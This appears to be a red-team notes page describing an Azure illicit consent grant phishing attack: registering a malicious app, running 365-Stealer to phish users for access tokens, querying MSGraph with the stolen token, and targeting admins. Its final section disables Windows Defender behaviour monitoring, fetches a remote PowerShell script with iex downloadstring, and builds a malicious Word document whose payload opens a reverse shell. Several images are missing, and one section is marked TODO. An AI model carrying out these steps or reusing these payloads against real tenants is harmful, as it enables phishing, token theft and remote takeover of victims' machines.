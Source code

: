 # Illicit Consent Grant

## Attack path overview

Illicit consent Grant is the most common attack on Azure.

<figure><img src="../../../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

## Methodology

* As an attacker, create a tenant (even using the free registration)
* &#x20;Use "App registration" to create a malicious App
* Send the link to a victim
* Victim grant consent to the app and an authorization response will be sent to the attacker app, containing an access token
* Attacker can use the access token to access any service on the target tenant, such as MSGraph

## Implementation

* Register a new app from Azure AD

note: Domain can also be an IP.

<figure><img src="../../../../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

* Next, create a client secret and save it

<figure><img src="../../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

* Add API permission for MSGraph API

<figure><img src="../../../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

* Grant "Delegated Permission" to access the MSGraph using the target victim account and add User.ReadBasicAll (Low impact, no admin consent needed\*) permission

<figure><img src="../../../../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

> In case of already getting a foothold in the target tenant (eg compromised host), it is possible to verify the Consent Grant policy. Otherwise, it is not possible, we just have to blindly test it&#x20;

```powershell
# import AzureAD-Preview powershell module

Import-Module .\AzureADPreview.psd1

# check policy
(Get-AzureADMSAuthorizationPolicy).PermissionGrantPolicyIdsAssignedToDefaultUserRole

# if it returns ManagePermissionGrantsForSelf.microsoft-user-default-legacy, it means tha
# the user can grant consent to all apps
```

## Weaponize the App

> Diffenrent tools can be used to steal token :&#x20;
>
> * MDSEC o365-attack-toolkit
> * AlteredSec 365-Stealer **(just a POC, don't use that in PROD)**
>
>

### o365-attack-toolkit

TODO...

{% embed url="https://github.com/mdsecactivebreach/o365-attack-toolkit" %}

### 365-Stealer

{% embed url="https://github.com/AlteredSecurity/365-Stealer" %}

* clone the tool
* copy the directory into a the web server root (htdocs for windows)&#x20;



```powershell
cp APPFOLDER C:\xampp\htdocs\
```

* start Apache and browse into the 365-Stealer page

<figure><img src="../../../../../.gitbook/assets/image (31).png" alt=""><figcaption></figcaption></figure>

* configure the tool using the "Registered App" ClientID and Secret and the Redirect URI

note: use the following place to retrieve the APP id ...

![](<../../../../../.gitbook/assets/image (3) (1).png>)

<figure><img src="../../../../../.gitbook/assets/image (41).png" alt=""><figcaption></figcaption></figure>

* Start 365-Stealer and retrieve the Phishing link

<figure><img src="../../../../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

* Send the malicious link to the victim

<figure><img src="../../../../../.gitbook/assets/image (43).png" alt=""><figcaption></figcaption></figure>

> Reminder about the different parameters

<figure><img src="../../../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>



* Enumerate potential subdomains on the target , eg upload files etc .Send the malicious link to the victim

```powershell
import-module C:\MicroBurst\Misc\Invoke-EnumerateAzureSubDomains.ps1
Invoke-EnumerateAzureSubDomains  -Base TARGET -Verbose
```

* retrieve the token

<figure><img src="../../../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (15).png" alt=""><figcaption><p>Access Token !</p></figcaption></figure>

* decoding the token

<figure><img src="../../../../../.gitbook/assets/image (36).png" alt=""><figcaption></figcaption></figure>

* use the token and make queries on MSGraph

```powershell
$token = "<Stolen Token>"
$URI = 'https://graph.microsoft.com/v1.0/users'
$RequestParams = @{
Method = 'GET'
Uri = $URI
Headers = @{
'Authorization' = "Bearer $Token"
}
}
(Invoke-RestMethod @RequestParams).value
```

> Note: The malicious Registered App has now been added to the target Tenant, under Enterprise Applications



> ![](<../../../../../.gitbook/assets/image (1) (1) (1) (1).png>)

<figure><img src="../../../../../.gitbook/assets/image (45).png" alt=""><figcaption></figcaption></figure>

### Target a higher privilege account

* search for an admin cloud user as a target
* Modify the application and add the following rights to be able to access and take control

![](<../../../../../.gitbook/assets/image (2) (1) (1).png>)

* Regenerate a phishing link and send it to the target email retrieve from the previous steps



```powershell
// Generate a Word document from an another machine just as POC :)

PS C:\Windows\system32> $pass = ConvertTo-SecureString "PASSWORD" -AsPlainText -Force
PS C:\Windows\system32> $creds = New-Object System.Management.Automation.PSCredential ("HOST-vm\Administrator",$pass)
PS C:\Windows\system32> $officevm = New-PSSession -ComputerName IP -Credential $creds


PS C:\Windows\system32> Enter-PSSession -Session $officevm
[]: PS C:\Users\Administrator\Documents> Set-MpPreference -DisableBehaviorMonitoring $true
[]: PS C:\Users\Administrator\Documents> exit
PS C:\Windows\system32> Set-MpPreference -DisableBehaviorMonitoring $true
PS C:\Windows\system32> Enter-PSSession -Session $officevm


[]: PS C:\Users\Administrator\Documents> iex (New-Object Net.Webclient).downloadstring("http://IP:PORT/Out-Word.ps1")

[]: PS C:\Users\Administrator\Documents> Out-Word -Payload "powershell iex (New-Object Net.Webclient).downloadstring('http://IP:PORT/InvokePowerShellTcp.ps1');Power -Reverse -IPAddress IP -Port 4444" -OutputFile file.doc
Saved to file file.doc

## Copy remotely
 Copy-Item -FromSession $officevm -Path C:\Users\Administrator\Documents\file.doc -Destination .
```
